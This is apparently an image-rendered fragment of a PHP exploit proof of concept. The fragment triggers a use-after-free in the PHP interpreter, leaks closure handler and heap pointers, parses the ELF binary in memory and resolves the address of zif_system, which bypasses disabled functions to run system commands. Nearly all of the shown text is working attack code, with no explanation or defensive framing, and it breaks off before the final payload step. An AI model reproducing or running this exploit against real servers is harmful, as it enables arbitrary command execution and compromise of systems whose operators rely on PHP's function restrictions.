 ```php
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


```